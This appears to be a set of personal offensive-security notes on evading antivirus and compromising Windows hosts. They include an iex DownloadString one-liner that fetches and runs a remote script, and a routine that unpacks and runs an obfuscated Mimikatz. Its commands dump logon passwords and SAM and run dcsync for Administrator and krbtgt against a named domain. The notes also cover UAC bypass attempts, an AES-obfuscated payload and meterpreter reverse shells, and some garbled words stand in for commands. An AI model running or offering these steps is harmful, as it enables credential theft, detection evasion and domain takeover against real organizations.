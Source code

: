 # Aes encryption and Decryption of functions

```C#
shifted to aes_encryption.cs
```

# Shellcode loader for 

cn I load aes encypted shellcode from meterpreter into the thing

# trying to obfuscate powerview and mimikatz

https://www.cyberguider.com/bypassing-av-cat-vs-mouse/

Get-MpThreatDetection - this will list all the threats

pyobfuscation works with powerview

 https://github.com/CBHue/PyFuscation.

```
# python PyFuscation.py -fpv --ps powerup.ps1 
```

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.6.12:8000/08012022_08_34_48.ps1');danger
```

a command to modify files in powershell
```
PS C:\> Get-Content D:\MultipleLineExamples.txt | Select -First 10 | Select -Last 1

get-content myfile.txt | select -first 1 -skip 9
```

# uncompressing mimikatz

```
Add-Type -AssemblyName System.IO.Compression.Filesystem
Add-Type -AssemblyName System.IO
$path = "Kitikat_2_2_1.zip"
$zipFile = Get-ChildItem $path -recurse -Filter "*.zip"
$rootArchive = [System.IO.Compression.zipfile]::OpenRead($zipFile.fullname)
$archivesLevel2 = New-object System.IO.Compression.ZipArchive ($rootArchive.Entries[0].Open())
$archivesLevel3 = New-object System.IO.Compression.ZipArchive ($archivesLevel2.Entries[0].Open())
$archivesLevel4 = New-object System.IO.Compression.ZipArchive ($archivesLevel3.Entries[0].Open())
$file =$archivesLevel4.Entries[0].Open()
$reader = New-Object IO.StreamReader($file)
$text = $reader.ReadToEnd()
iex $text
Hartford -Command '"privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "lsadump::dcsync"  "lsadump::dcsync /domain:ksew.com.pk /user:Administrator" "lsadump::dcsync /user:ksew.com.pk\krbtgt" "exit"' > take.txt
```



# converting powershell to exe

`Install-Module -Name ps2exe -RequiredVersion 1.0.10`
`Invoke-ps2exe .\unkitikat.ps1 .\bang.exe`




all done through sed

# fuzzy security

https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-Runas.ps1

invokerunas giving error

```
C:\Users\m\Downloads>powershell "import-module .\invoke_runas.ps1;Invoke-runas"

cmdlet Invoke-Runas at command pipeline position 1
Supply values for the following parameters:
User: WIN10RED
Password: WinR3d@
Binary: C:\Windows\System32\cmd.exe 
LogonType: 0x1

[>] Calling Advapi32::CreateProcessWithLogonW

[+] Success, process details:

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     18       4     1532       2252       0.02    400   1 cmd

```

can we pass with commands


-NoNewWindows start-process

can we again run the binary to get a new much more exploitable version of windows powershell?

This work :

```
C:\Users\m\Downloads>powershell "Start-Process C:\Windows\System32\cmd.exe -NoNewWindow"
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.
```

```
$pass = convertTo-SecureString 'password@123' -AsPlainText -Force;$name="m";$cred = New-Object System.Management.Automation.PSCredential($name,$pass);Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
```

UACbypass from here:

```
C:\Users\m\Downloads>powershell "import-module .\uace_bypass.ps1;Bypass-UAC -Method UacMethodSysprep"

[!] The current user is not part of the Administrator group!
```

otherway is to use https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

we can also create a exe that runs all the commands

using runas 

# working runas command

runas /user:HP "powershell Start-Transcript -Path C:\Users\m\testlog.txt;import-module 'C:\Users\m\invokemimi.ps1';Stop-Transcript"

Bypass-UAC -Method UacMethodTcmsetup

# using invoke-obfuscation

https://blog.geoda-security.com/2018/05/running-obfuscated-version-of-mimikatz.html

`Import-Module .\Invoke-obfuscation.psd1; Invoke-Obfuscation`

set a scriptblock

```
set ScriptBlock "sensationalism -Command coffee"
```
ENCODING > 5 (AES) > 

```
 ( [rUnTime.interOPseRvicEs.mARShAL]::PtRtoStRinGbStr( [RUNTIMe.intEroPSeRVIcEs.marsHal]::sECUrEsTringToBStR( $('76492d1116743f0423413b16050a5345MgB8AGcAdQB6AHMAaQBWAGcAMgB6AGIAegB2AE4AcABuADQAVwBBAFYAcgBRAHcAPQA9AHwANgAzAGEANABmADMAOQA1ADEANwAzADEAYgA3AGUAZQBkAGEAMgBiADMANAA1AGMANwBhAGYAYwBlAGEANAAyADAAMwA0AGMAMAAxADcAMQBmAGIAMgBhADMANQBlADcAMAA5ADcAZgAyADkAZgA2AGIAZQA0AGQAYQAzADMAYwA0ADMANwA1AGUAMwA1AGUAZgA2AGIAOQA3AGUANQAyAGIAZgAzAGEANQA0AGYAZABkAGYAMQBmADEANwBkADEAMwA1AGIAMgA1ADgAMABmADQAYwBmADIAMgBkAGUAYQA2AGYAMwBlADkAMAAyADAAYgA2AGQAMgA1AGMAMgA0AA==' |CoNVErttO-SecurestrinG  -Ke 8,235,214,3,211,95,255,197,77,221,129,59,109,255,134,188)) ) ) | &((GV '*MDr*').NAME[3,11,2]-JoIn'')
```

# meterpreter shell commands

sending to background - background

when trying with windows/shell_reverse_tcp - we got the response as :

we can also try and use the normal meterpreter shell commands to execute stuuf